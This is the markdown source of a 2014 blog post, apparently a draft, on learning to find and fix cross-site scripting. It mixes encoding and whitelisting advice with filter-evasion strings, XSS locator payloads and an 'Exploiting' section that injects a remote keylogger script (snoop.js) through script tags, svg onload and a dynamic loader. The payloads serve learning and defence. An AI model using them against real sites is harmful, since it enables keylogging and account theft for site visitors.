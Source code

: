 ```yaml
---
layout: posts
title: "XSS Learnings"
description: "...."
keywords: "xss, cross site scripting, hacking, vulnerability, scripting"
date: 2014-10-09 23:13
categories: ['blog']
tags: ['security']
comments: true
meta: true
image:
  feature: covers/xss-security.jpg
  bg_style: 'background-position: left; background-size: contain; background-repeat: no-repeat; background-color: #000C14;'
quote:
    text: "When solving problems, dig at the roots instead of just hacking at the leaves."
    title: The College Blue Book
    author: Anthony J. D'Angelo
---
```



5 Learnings fixing XSS vulnerabilities

Most common security risks [OWASP Top 10][1]. Comes out every few years. People often complain howcome nothing new
comes up? Well, that's a problem too.

Whitehat Security Report shows that XSS is second most likely vulnerability to exist on a website at 53% just behind
Information Leakage (55%).

Information Leakage: Note: For those unfamiliar, Information Leakage is largely a catch-all term used to describe
                     a vulnerability where a website reveals sensitive data, such as technical details of the Web
                     application, environment, or user-specific data: sensitive data that's completely unnecessary
                     for a typical visitor, but may be used by an attacker to exploit the system, its hosting network,
                     or users. Common examples are a failure to scrub out HTML/ JavaScript comments containing
                     sensitive information (database passwords), improper application or server configurations, or
                     differences in page responses for valid versus invalid data.

Moving towards client site

// Not meant to be a lenghty write-up. But provides you with just enough context to know what you want to read up on
to solve the problem on hand

// XSS remains in the top 10 of vlunerbailities of all time. This list has not changed because ...

// Escaping a given char set is never enough

Tedious!

Automated tools can find some XSS problems automatically. However, each application builds output pages differently
and uses different browser side interpreters such as JavaScript, ActiveX, Flash, and Silverlight, making automated
detection difficult. Therefore, complete coverage requires a combination of manual code review and penetration testing,
in addition to automated approaches.

// 1 - Encoding
Input is left as is, and not santized. For a system that already exists in Production, think about the content
that has already been entered by users already.


* Different encoding types exist
* Attribute encoding, Content encoding

> But HTML entity encoding doesn't work if you're putting untrusted data inside a <script> tag anywhere, or an event
handler attribute like onmouseover, or inside CSS, or in a URL. So even if you use an HTML entity encoding method
everywhere, you are still most likely vulnerable to XSS. You MUST use the escape syntax for the part of the HTML
document you're putting untrusted data into. That's what the rules below are all about.
https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet

// 2 - Locator strings

// 3 - White list for absolute URL's
Positive or “whitelist” input validation is also recommended as it helps protect against XSS, but is not a complete
defense as many applications require special characters in their input. Such validation should, as much as possible,
validate the length, characters, format, and business rules on that data before accepting the input.


```
// Embedded tab
<IMG SRC="jav	ascript:alert('XSS');">

// Embedded Encoded tab
<IMG SRC="jav&#x09;ascript:alert('XSS');">

// Embedded carriage return to break up XSS
<IMG SRC="jav&#x0D;ascript:alert('XSS');">

```

// 4 - How to exploit a XSS vulnerable site
* Using <svg onload="..." />
* Using <img onload="..." />
* Passing in query string
* Using bit.ly to obfuscate a URL, or HTML encoding - its getting easy to get users to click on malciious links because of url shorterning
* Breaking the code

```
function escape(input) {
    return '<input type="text" value="' + input + '">';
}
```

```
"><svg onload="alert('hello world');">
```

// 5 Context




Character | HTML Encoding |
----------|:--------------|
& | `&amp;`
< | `&lt;`
> | `&gt;`
" | `&quote;`
' | `&#x27`
/ | `&#x2F;`



#### XSS Locator
~~~
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";
alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--
></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
~~~

#### XSS locator 2
~~~
'';!--"<XSS>=&{()}
~~~


{% highlight javascript %}
javascript:alert(‘hello’);
java&#010;script:alert(‘hello’);

// Embedded tab
jav	ascript:alert('hello');

// Embedded newline to break up XSS
java&#X0A;script:alert(‘hello’);
{% endhighlight %}

Ref: https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet


# Exploiting
```
// Embed and execute client side script by using a script tag if it is allowed in XSS vulnerable web page
<script src="http://localhost:3000/snoop.js"></script>

// Encode special tags to HTML code to bypass sites with simple inadequate encoding of special tags only
&#060;script src="http://localhost:3000/snoop.js"&#062;&#060;/script&#062;
```

Some sites will prevent any `<script>` tags to be embedded or posted in their input fields. In that case, you
could try to embed and run xss-keylogger client side script as part of the `onload` attribute of an `svg` element.
```
<svg onload="http://localhost:3000/snoop.js" />


var d=document;var s=d.createElement('script');s.type='text/javascript';s.src='http://localhost:3000/snoop.js';var h=d.getElementsByTagName('head')[0];h.appendChild(s);

function loadScript(url, callback) {
        // Adding the script tag to the head as suggested before
        var head = document.getElementsByTagName('head')[0];
        var script = document.createElement('script');
        script.type = 'text/javascript';
        script.src = url;

        // Then bind the event to the callback function.
        // There are several events for cross browser compatibility.
        script.onreadystatechange = callback;
        script.onload = callback;

        // Fire the loading
        head.appendChild(script);
    }
```

## How to get it right
To improve my own knowledge on this domain, I thought I'd try and learn how to hack. It turned out to be a lot of
fun whilst at it.

Just wanted to move on from the `alert` messages that most XSS demonstrations show. Own complete application.
// Talk about XSS Keylogger and the learning
// For something more fletched out, [Browser Exploitation Framework (BeEF)][3]

Heaps of other methods. Suggest that you listen to [Application Security for RIAS][4] that demonstrats CSRF and even ClickJacking which I am
tempted to try on my site and see if it has any effects increasing the number of followers on my twitter - just kidding!

## References:
* https://github.com/cure53/xss-challenge-wiki/wiki/prompt.ml
* http://prompt.ml/0

[1]: https://www.owasp.org/index.php/Top_10_2013-Top_10
[2]: https://www.whitehatsec.com/assets/WPstatsReport_052013.pdf
[3]: http://beefproject.com
[4]: http://www.sencha.com/conference/session/application-security-for-rias
